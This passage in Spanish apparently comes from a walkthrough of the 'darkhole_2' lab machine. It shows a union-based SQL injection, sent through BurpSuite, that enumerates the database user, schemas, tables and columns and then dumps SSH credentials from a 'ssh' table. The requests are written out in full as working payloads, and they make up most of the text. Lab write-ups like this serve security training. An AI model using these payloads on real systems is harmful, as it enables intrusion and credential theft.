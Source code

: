>Recordamos que en BurpSuite lo hemos de meter con `+` en los espacios para la URL al hacer la petición. Seleccionmos y apretamos CTRL+U nos apareceran `+` entre medio.

Obtenemos el Usuario Actual:

```bash
GET /dashboard.php?id=2'+UNION+SELECT+user(),+user(),+user(),+user(),+user(),+user()--+- HTTP/1.1
```

Obtenemos el usuario `root@localhost`

3. Nombre de las columnas

```bash
GET /dashboard.php?id=2'+UNION+SELECT+1,schema_name,2,4,5,6+from+information_schema.schemata--+- HTTP/1.1
```

Solo nos devuelve `my_sql`.

4. Obtenemos los Nombres de las Columnas:

Vamos a concatenar los resultados y en el Pretty ver el nombre de las columnas:

```bash
GET /dashboard.php?id=2'+UNION+SELECT+1,group_concat(schema_name),2,4,5,6+from+information_schema.schemata--+- HTTP/1.1
```

Obtenemos:

```bash
value="mysql,information_schema,performance_schema,sys,darkhole_2"
```

5. Nombre de las tablas de la columna `darkhole_2`:

```bash
GET /dashboard.php?id=2'+UNION+SELECT+1,group_concat(table_name),2,4,5,6+from+information_schema.tables+where+table_schema='darkhole_2'--+- HTTP/1.1
```

Encontramos las columnas `SSH`, `users`.

5. Obtenemos las Columnas de la Tabla ssh:

```bash
GET /dashboard.php?id=2'+UNION+SELECT+1,+2,+group_concat(column_name),+4,+5,+6+FROM+information_schema.columns+where+table_schema='darkhole_2'+and+table_name='ssh'--+- HTTP/1.1
```

La tabla ssh tiene las columnas `id`, `user` y `pass`, el siguiente paso sería extraer los valores almacenados en esa tabla.

La tabla users (substituimos `ssh` por `users` y se obtiene las columnas `value="id,username,email,password,contact_number,address"`

6. Obtenemos las Credenciales del Usuario

```bash
GET /dashboard.php?id=2'+UNION+SELECT+1,2,group_concat(id,':',user,':',pass),4,5,6+FROM+darkhole_2.ssh--+- HTTP/1.1

1:jehad:fool
```
